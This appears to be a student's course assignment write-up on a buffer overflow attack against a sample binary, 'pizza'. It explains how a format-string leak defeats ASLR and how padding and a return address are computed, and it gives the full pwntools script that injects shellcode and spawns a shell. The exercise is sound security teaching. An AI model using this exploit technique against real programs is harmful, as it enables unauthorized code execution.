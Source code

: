 # Control Flow Integrity Violation

The goal of this assignment is to write a python script using `pwntools` that executes the given program, leaks the stack offset, and spawns a shell. Through this exercise, we delve into the realm of control flow integrity violations, where unexpected inputs manipulate the program's execution flow, potentially leading to unauthorized access or unintended behavior.

In a previous class, we went into the concept of library injection, a method involving a loader program to run another program to load a library in a new thread. Dr. Reynolds highlighted a more direct approach to inject shellcode into vulnerable processes. This technique is based in providing unexpected input to a program, and thus altering the content of the instruction pointer register. By gaining control of the IP register, attackers gain the ability to manipulate the program's behavior at will. Although numerous methods exist to achieve this, we focused only on one: buffer overflow.

Dr. Reynolds explained that when a programmer permits writing more data into a buffer than its capacity, it leads to overwriting data higher up on the stack. This behavior typically results in undefined behavior or segmentation faults. However, attackers can exploit this vulnerability to their advantage. In a buffer overflow attack, attackers aim to overwrite the return address since it is eventually loaded into the IP register.

The approach for this assignment involves injecting shellcode directly into the buffer and ensuring that the IP register points to the beginning of this shellcode. Then later, the shellcode executes within the program, invoking functions like execve and replacing the current program with a shell accessible to the attacker.

## Requiered files and dependencies
- Install `pwntools` using the following commands on the terminal
  ```bash
  sudo apt-get update -y
  sudo apt-get install python3 python3-pip python3-dev git libssl-dev libffi-dev build-essential -y
  sudo python3 -m pip install --upgrade pip -y
  sudo python3 -m pip install --upgrade pwntools -y
  ```
- Download the program we are going to take over. Victim program: [(Pizza)](https://github.com/tolvumadur/Reverse-Engineering-Class/blob/main/Spring24/Samples/binaries/pizza)
  
## Findings about the victim program: pizza
This program appears to be a simple pizza calculator/delivery app. Here's how it works:

1. The program prompts the user to input their name for the order.
2. After receiving the name input, it acknowledges the user with a greeting containing their name.
3. Then, it asks the user to specify the number of pizzas they would like to order, within the range of 1 to 10.
4. Upon receiving the number of pizzas, it confirms the order and informs the user that the pizzas will be prepared.
5. Next, it calculates the total cost of the order, including the cost of the pizzas and tax.
6. It displays the total amount to the user.
7. Finally, it requests the user to input their credit card number for payment.
8. After receiving the credit card number, it confirms the payment method and completes the transaction.

After using Ghidra to inspect the program we can see that the program is using a not very secure function that allows the user to input a format string. Dr. Reynolds mentioned that a format string such as `%p` can leak values from the stack.


## Process for building the script
We were asked by the professor to see if we were able to crash the program by running it and inputting data. So what we did was input a large number of random characters into the name field. As we gradually increased the input length, we observed the program's behavior. Upon reaching a certain threshold, the program crashed and displayed a segmentation fault error. This crash occurred because our input overflowed the buffer, thereby overwriting critical memory areas, including the return address. Consequently, the program became unable to execute further instructions, resulting in the segmentation fault error.

To achieve a succesful buffer overflow attack we need to meet three conditions:
1. We need to find out how many bytes after the beginning of the buffer are there before the return address.
2. We need to inject padding bytes plus a new return address, plus some shellcode.
3. We need to be able to predict at what address our shellcode will be so we can return to it.

To get started I ran the program using my python script with pwntools. In line 24 we are telling the program to run the pizza program. Then in lines 26 and 28 we are setting up some parameters about our proccesor and computer. Pwntools library includes a shellcode that we can use to spawn the shell, this is declared in line 35.
Then we input a format string to leak values from the stack (line 37). We run the program (line 39), recieve and print the welcome message (line 42), and then we send "our name" which in this case will be the format string to leak values (line 45). Recieve and print the Hi message that will contain the leak values (lines 47-48).

![image](https://github.com/horaciog1/CS479-Reverse-Engineering/assets/111658514/dda49cd8-5609-47a6-abc4-42da58c5d0e3)    


The output will look like this:   
![image](https://github.com/horaciog1/CS479-Reverse-Engineering/assets/111658514/2a0d9983-3d1b-47db-95ec-aa8df0c18061)   
If we pay close attention to the values printed, we can notice that the 3 last values are addresses from the stack (we know this because of the format).

We keep sending values from the other fields, we send a `10` for the number of pizzas, but for the credit card number we send a bunch of A's (it can be any character) to get the program to crash so that we can get a segfault error and this will generate a corefile containing information about the crash. I created a function to get stack information from the corefile of the crash, and my function prints the addresses and the values at that part, it also show us where the RSP (stack pointer) is pointing to.   

![image](https://github.com/horaciog1/CS479-Reverse-Engineering/assets/111658514/daf459ad-cbda-42ae-9b0e-ca57684f1bee)    

Now that we have an idea on how the stack looks like, we can see where the RSP is pointing to (which is the return address), and at the address `0x7ffc89097ca0` (red arrow) we can see the beggining of the shellcode. CPU's are protected against these types of attacks, they use something called Address Space Layout Randomization (ASLR) which basically is in charge of running program on random locations every time they are run. This makes almost impossible and inpredictibale to calculate where our shellcode should be. But since we already have the values, and after running the script a couple of times, we notice that there is always the same amount of space beetween the addresses leaked. So then with these three addresses we can calculate the offset, predict where our shellcode will be, and inject the right amount of padding bytes to overwrite the return address. 
![327933224-a81186fc-3628-459b-ad86-0978a8bd3afb](https://github.com/horaciog1/CS479-Reverse-Engineering/assets/111658514/983f70ef-056c-40de-a49a-6809a4acf20d)


We take the address where RSP is pointing at and we substract the address of the shellcode from it. This operation will give us the amount of neccesary padding bytes to overwrite the neccesary places on the buffer. The result is `88` in hex because we are sending them as bytes directly.
![image](https://github.com/horaciog1/CS479-Reverse-Engineering/assets/111658514/110dff45-0a44-4112-8a0f-3315e2fb135d)   

Then we calculate the offset for the new return address that will be pointing to the shellcode. We substract the `address of the shellcode` from the `leaked address of the stack` that we got from the first input.   
![327932750-2a0d9983-3d1b-47db-95ec-aa8df0c18061](https://github.com/horaciog1/CS479-Reverse-Engineering/assets/111658514/1401ed14-938d-4ffa-b308-d66c2f1aa99a)

![image](https://github.com/horaciog1/CS479-Reverse-Engineering/assets/111658514/54c2025d-a614-4ff7-9838-4abdcfce1020)    
The result will then be `112` in decimal.   

Now, in line 55 we are parsing the output of the leaked values, this values will be saved into a list, we select the 8th element from the list which will be the highest address, and we convert this string containing the address into a hex value. Then at the end we substact `112` in decimal from this hex value, this will then become our new return address.
In line 56 we are setting up our input for the credit card field, our input will be a combination of the `shellcode` + `padding bytes` + `new return address`. We send the our input (line 58)
![image](https://github.com/horaciog1/CS479-Reverse-Engineering/assets/111658514/12b5a52b-c00f-46a2-b4e0-e6c87baa1a94)    
If everything works as expected, we should be seen a new red terminal spawned. Line 62 allows us to take control over the machine, asking us for input on the new terminal.






## Buffer Overflow script

```python3
#!/usr/bin/env python3

from pwn import *

def printStack(core):
    rsp = core.rsp
    stack_before_rsp = core.read(rsp - 22 * 8, 22 * 8)  # 22 elements before RSP
    stack_after_rsp = core.read(rsp, 22 * 8)  # 22 elements after RSP

    print("\nStack:")
    for i in range(0, len(stack_before_rsp), 8):
        address = rsp - 22 * 8 + i
        value = core.read(address, 8)
        arrow = "<---------- RSP" if address == rsp else "    "  # Point to RSP
        print(f"{hex(address)}\t{value}\t\t\t\t\t\t\t\t\t{arrow}")

    for i in range(0, len(stack_after_rsp), 8):
        address = rsp + i
        value = core.read(address, 8)
        arrow = "<---------- RSP" if address == rsp else "    "  # Point to RSP
        print(f"{hex(address)}\t{value}\t\t\t\t\t\t\t\t\t{arrow}")

# Executable and Linkable Format
elf = ELF("./pizza")

context(arch='amd64', os='linux', endian='little', word_size=64)

getname_address = elf.symbols["getname"]

#print(hex(getname_address))

#print(shellcraft.amd64.linux.sh())
#exit()

shellcode = asm(shellcraft.amd64.linux.sh())



input1 = b"%p %p %p %p %p %p %p %p %p"



victim = process("./pizza")

# Recieve Welcome Message
print(str(victim.recvline(), "latin-1"))

# Send Name
victim.sendline(input1)
# Recieve stack address leak output
leak = str(victim.recvline(), "latin-1")
print(leak)

# Send numberof pizzas and recieve output
victim.sendline(b"10")
print(str(victim.recvline(), "latin-1"))

# SHELL CODE + "A"*?? + NEW RET_ADDRESS
retAddr = int(leak.split(" ")[7], 16) - 112
input2 = shellcode + b"A"*88 + retAddr.to_bytes(8, 'little')

victim.sendline(input2)
#print(str(victim.recvline(), "latin-1"))


victim.interactive()
#core = victim.corefile

#printStack(core)

# print(disasm(core.read(core.rip, 8)))
# print( core.read( core.rsp, 100))


exit()
```
